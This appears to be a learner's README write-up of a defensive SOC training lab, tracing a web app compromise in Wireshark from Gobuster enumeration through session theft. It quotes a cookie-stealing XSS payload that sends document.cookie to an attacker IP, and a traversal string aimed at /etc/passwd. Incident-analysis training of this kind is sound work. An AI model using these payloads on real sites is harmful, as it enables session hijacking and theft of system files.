# 🛡️ CyberLabs SOC L1 – RetailBreach Investigation

## Overview

This is my write-up of the **RetailBreach** lab on **CyberLabs**, one of the L1 SOC investigation labs I worked through as part of my cybersecurity journey.

The scenario: a simulated web app got compromised, and I had to dig through the network traffic to figure out what actually happened — who the attacker was, how they got in, what they stole, and what they tried to do with it. Basically playing SOC analyst for an afternoon.

I used Wireshark to go through the packet captures and CyberChef to decode a couple of payloads along the way.

**Platform:** CyberLabs

**Lab:** RetailBreach

**Role I was playing:** SOC Analyst L1

> **Note:** This was done in a controlled training environment. I've redacted the actual session token from this repo — even in a lab, it's still an authentication credential and I'd rather build the habit of not publishing that stuff.

---

## What I Was Trying to Find

* The attacker's IP address
* What tool they used to brute-force / enumerate the site
* The XSS payload they injected
* When the admin actually opened the compromised page
* The session token that got stolen
* Which script on the app got exploited
* The exact payload used to try and grab a sensitive system file

---

## Tools I Used

| Tool          | Purpose                                |
| ------------- | -------------------------------------- |
| **Wireshark** | for the actual packet/traffic analysis |
| **CyberChef** | for decoding URL-encoded payloads      |

### Skills I Practiced

| Skill                                                     | Status |
| --------------------------------------------------------- | :----: |
| Reading network traffic and following conversations       |    ✅   |
| Analysing HTTP requests                                   |    ✅   |
| Following HTTP streams                                    |    ✅   |
| Reading User-Agent strings                                |    ✅   |
| Investigating XSS                                         |    ✅   |
| URL decoding                                              |    ✅   |
| Building a timeline from timestamps                       |    ✅   |
| Session/cookie analysis                                   |    ✅   |
| General "how did this attack actually work" investigation |    ✅   |
| Spotting directory traversal                              |    ✅   |

---

# Walking Through the Investigation

## Task 1 – Finding the Attacker's IP

**What I was looking for:** which IP was actually behind the suspicious activity.

I went to **Statistics → Conversations** in Wireshark to see who was talking to who. One IP was clearly sending way more traffic than it was receiving back — that's usually a decent sign something's off, so I flagged it as the one to dig into.

**Finding:** `111.224.180.128`



**Figure 1: Wireshark Conversations showing the suspected attacker IP.**



**Figure 2: Network conversation details supporting the attacker IP finding.**

**Takeaway:** Traffic volume and direction alone can point you toward who's worth investigating first, before you even look at what's inside the packets.

---

## Task 2 – What Tool Was Used for the Brute Force

**What I was looking for:** how the attacker was hammering the site.

I filtered everything down to just the attacker's traffic:

```text
ip.src == 111.224.180.128
```

That turned up a weird request:

```http
GET /.cvsignore HTTP/1.1
```

Followed the HTTP stream and checked the User-Agent header, which basically gave it away.

**Finding:** `Gobuster`



**Figure 3: Filtered traffic showing activity from the suspected attacker.**



**Figure 4: User-Agent information identifying Gobuster.**

**Takeaway:** A lot of scanning/enumeration tools don't hide themselves — the User-Agent header will often just tell you what's running against you.

---

## Task 3 – Finding the XSS Payload

**What I was looking for:** the actual malicious script the attacker injected.

Filtered for traffic from the attacker that mentioned "script":

```text
ip.src == 111.224.180.128 && http contains "script"
```

That led me to a POST request to `reviews.php`. I followed the stream and the payload was URL-encoded, so I ran it through CyberChef to decode it.

**What I found:**

```html
<script>fetch('http://111.224.180.128/' + document.cookie);</script>
```

Pretty classic cookie-stealing XSS — grab `document.cookie` and send it straight to the attacker's own IP.



**Figure 5: HTTP request containing the XSS payload.**



**Figure 6: Decoded XSS payload showing `document.cookie` being sent to the attacker's IP.**

**Takeaway:** This was my first time really connecting "XSS" as a concept to what it looks like in raw traffic. Seeing `document.cookie` getting exfiltrated made session hijacking click for me in a way just reading about it never did.

---

## Task 4 – When Did the Admin First Hit the Compromised Page

**What I was looking for:** the UTC timestamp of the admin's first visit after the page was compromised.

From Task 3, the XSS was injected at roughly **12:08 UTC**. So I filtered for requests to `reviews.php` that weren't from the attacker:

```text
ip.src != 111.224.180.128 && http.request.uri contains "reviews.php"
```

Two requests showed up — one at 11:50 UTC and one at 12:09 UTC. Since 11:50 was *before* the payload even existed, that visit couldn't have hit the malicious script. So 12:09 had to be the real one.

**Finding:** `2024-03-29 12:09 UTC`



**Figure 7: Admin request showing the first visit to the compromised page at 12:09 UTC.**



**Figure 8: Timestamp showing when the XSS payload was injected.**

**Takeaway:** Timestamps only mean something once you line them up against each other. This was a good reminder to always double-check that a "hit" actually happened *after* the thing that would've caused it.

---

## Task 5 – Finding the Stolen Session Token

**What I was looking for:** the session token that got exposed through the XSS.

Went back to the packet from Task 4 and followed that HTTP stream, then checked the headers for cookies. Found a `PHPSESSID` value sitting right there.

**Finding:** `[REDACTED – LAB SESSION TOKEN]`

I'm not publishing the real value here — it's still a credential, even in a training lab, and I want to get in the habit of treating it that way.



**Figure 9: HTTP stream showing the stolen session token, with the sensitive value redacted.**

**Takeaway:** This was the moment where Task 3 and Task 4 actually connected — the XSS I found earlier was the exact mechanism that leaked this token.

---

## Task 6 – Which Script Got Exploited

**What I was looking for:** what the attacker actually did once they had the stolen session.

Used the session token to filter the attacker's traffic:

```text
ip.src == 111.224.180.128 && http && frame contains "<LAB_SESSION_TOKEN>"
```

That turned up requests to an admin script:

```text
/admin/log_viewer.php?file=error.log
```

and then:

```text
/admin/log_viewer.php?file=../../../../../etc/passwd
```

So the `file` parameter on `log_viewer.php` was clearly the thing being messed with.

**Finding:** `log_viewer.php`



**Figure 10: Request to the vulnerable `log_viewer.php` admin script.**



**Figure 11: Request showing the directory traversal attempt against the `file` parameter.**

**Takeaway:** Once you have a stolen session, you can literally filter traffic by it and watch what the attacker did step by step — it turns the rest of the investigation into following a trail.

---

## Task 7 – The Payload Used to Reach a Sensitive File

**What I was looking for:** the exact string used to try and pull a system file.

Kept looking at traffic tied to the compromised session and the vulnerable script from Task 6:

```http
GET /admin/log_viewer.php?file=../../../../../etc/passwd HTTP/1.1
```

**Finding:**

```text
../../../../../etc/passwd
```

Classic directory traversal — stacking `../` to climb out of the app's directory and reach `/etc/passwd`.



**Figure 12: Directory traversal payload targeting `/etc/passwd`.**

**Takeaway:** The vulnerable script and the payload are two separate findings — knowing *where* the flaw is doesn't automatically tell you *how* it was abused.

---

# Incident Timeline

| Time            | What Happened                                                                 |
| --------------- | ----------------------------------------------------------------------------- |
| 11:50 UTC       | Legit visit to `reviews.php`, before anything was injected                    |
| 12:08 UTC       | Attacker injects the XSS payload                                              |
| 12:09 UTC       | Admin opens the now-compromised page                                          |
| After 12:09 UTC | Stolen session gets used for further attacker activity                        |
| Later           | Attacker hits `log_viewer.php`, attempts directory traversal to `/etc/passwd` |

---

# Key Findings

| What I Was Looking For                  | What I Found                        |
| --------------------------------------- | ----------------------------------- |
| Attacker IP                             | `111.224.180.128`                   |
| Enumeration tool                        | `Gobuster`                          |
| XSS payload                             | `fetch()` sending `document.cookie` |
| Admin's first visit to compromised page | `2024-03-29 12:09 UTC`              |
| Session token                           | Redacted                            |
| Exploited script                        | `log_viewer.php`                    |
| Target file                             | `/etc/passwd`                       |
| Directory traversal payload             | `../../../../../etc/passwd`         |

---

# How It All Fits Together

Piecing it together, here's roughly how the attack went down:

The attacker (`111.224.180.128`) started by running Gobuster against the site to enumerate hidden files and directories. At some point they found a way to inject an XSS payload into `reviews.php`, using `fetch()` to send whatever cookie the victim had straight back to their own IP.

When the admin opened that page at 12:09 UTC, the script fired and their `PHPSESSID` got exfiltrated. From there, the attacker used that stolen session to reach `log_viewer.php`, an admin-only script, and tried a directory traversal payload against its `file` parameter to get at `/etc/passwd`.

So it's really a three-stage chain: **enumeration → XSS/session theft → privilege abuse via the stolen session.** That's the kind of chain I want to get faster at spotting.

---

# Skills I Practiced

* Wireshark packet analysis
* Traffic conversation analysis
* HTTP request/stream analysis
* User-Agent identification
* XSS analysis
* URL decoding (CyberChef)
* Timeline reconstruction
* Session/cookie analysis
* Web attack investigation
* Directory traversal analysis
* Writing up an incident afterward

---

# What I Took Away From This

This lab helped me get more comfortable actually using Wireshark on something that felt close to a real incident, instead of just following a tutorial.

Biggest lesson: individual packets are useful, but the real work is connecting them into a story — this IP did this, which led to that, which explains why this other thing happened later. That's the part that actually feels like SOC analyst work, not just "find the flag."

It also made the connection between XSS and session hijacking way more concrete for me — I'd read about it before, but watching a cookie actually walk out the door via `fetch()` and then get reused against an admin script made it click properly.

Next thing I want to try: a lab where I have to build the detection rule/alert myself instead of just investigating after the fact.

---

# Project Structure

```text
CyberLabs-SOC-L1-RetailBreach/
│
├── README.md
│
└── screenshots/
    ├── Task-01-attacker-ip-01.png
    ├── Task-01-attacker-ip-02.png
    │
    ├── Task-02-tool-used-01.png
    ├── Task-02-tool-used-02.png
    │
    ├── Task-03-XSS-payload-01.png
    ├── Task-03-XSS-payload-02.png
    │
    ├── Admin-First-Timestamp.png
    ├── XSS-Timestamp.png
    │
    ├── Task-05-Stolen-Session-Token.png
    │
    ├── Task-06-Exploited-Script-Log-Viewer-01.png
    ├── Task-06-Exploited-Script-Log-Viewer-02.png
    │
    └── Task-07-Directory-Traversal-Payload.png


